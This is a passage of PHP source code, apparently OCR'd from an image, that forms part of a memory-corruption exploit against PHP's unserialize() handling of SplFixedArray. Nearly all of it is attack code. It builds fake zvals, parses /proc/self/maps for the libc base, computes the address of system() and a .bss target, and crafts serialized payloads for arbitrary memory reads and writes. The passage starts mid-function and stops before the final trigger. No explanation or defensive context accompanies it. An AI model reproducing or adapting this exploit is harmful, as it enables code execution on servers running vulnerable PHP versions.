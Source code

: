  ```Php
    $fakezval .= "\x00\x00\x00\xff";
    $fakezval .= "\x06";
    $fakezval .= "\x00";
    $fakezval .= "\x00\x00";
    $inner2 = 's:'.strlen($fakezval).':"'.$fakezval.'"';
    $mid = 'x:6;i:0;s:1:"0";i:1;s:1:"1";i:2;C:13:"SplFixedArray":'.strlen($inner).':{'.$inner.'}i:3;'.$inner2.';i:4;'.$inner2.';i:5;'.$inner2.';';
    $a = 'C:13:"SplFixedArray":'.strlen($mid).':{'.$mid.'}';

    $data = unserialize($a);
    return substr($data[2][2], 0, $length);
}

function parse_libc()
{
    $maps = file_get_contents("/proc/self/maps");
    preg_match('#([0-9a-f]+)\-[0-9a-f]+.+/.+libc\-.+#', $maps, $r);
    $result = hexdec($r[1]);
    return $result;
}

$libc = parse_libc();
echo "libc_base = ".$libc."\n";
$system = ptr2str($libc + 0x46590);
$bss = $libc + 0x3C0000;
/*
$array = array();
for($i = 0;$i<10;$i+=2) {
    $array[$i] = "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA";
}

FOR($i=0;$i<10;$i++) {
    $array[$i] = $i;
}
*/
$inner = 'x:3;i:0;i:0;i:1;s:8:"AAAAAAAA";i:2;?:2;';
$fakezval = ptr2str(0);
$fakezval .= ptr2str(0x7fffffff);
$fakezval .= "\x01\x00\x00\x00";
$fakezval .= "\x06";
$fakezval .= "\x00";
$fakezval .= "\x00\x00";
$inner2 = 's:'.strlen($fakezval).':"'.$fakezval.'"';
$mid = 'x:7;i:0;s:1:"0";i:1;s:1:"1";i:2;C:13:"SplFixedArray":'.strlen($inner).':{'.$inner.'}i:3;'.$inner2.';i:4;'.$inner2.';i:5;'.$inner2.';i:5;?:5;';
$a = 'C:13:"SplFixedArray":'.strlen($mid).':{'.$mid.'}';
$data = unserialize($a);
var_dump($data);

echo bin2hex($data[5]);

/* avoid calling free */
$inner1 = 'x:3;i:0;i:0;i:1;s:8:"AAAAAAAA";i:2;?:2;';
$fakezval1 = ptr2str($bss);
$fakezval1 .= ptr2str(8);
$fakezval1 .= "\x00\x00\x00\x00";
$fakezval1 .= "\x06";
$fakezval1 .= "\x00";
$fakezval1 .= "\x00\x00";
$inner2 = 's:'.strlen($fakezval1).':"'.$fakezval1.'"';
$mid = 'x:6;i:0;s:1:"0";i:1;s:1:"1";i:2;C:13:"SplFixedArray":'.strlen($inner1).':{'.$inner1.'}i:3;'.$inner2.';i:4;'.$inner2.';i:5;'.$inner2.';';
$a = 'C:13:"SplFixedArray":'.strlen($mid).':{'.$mid.'}';
 ```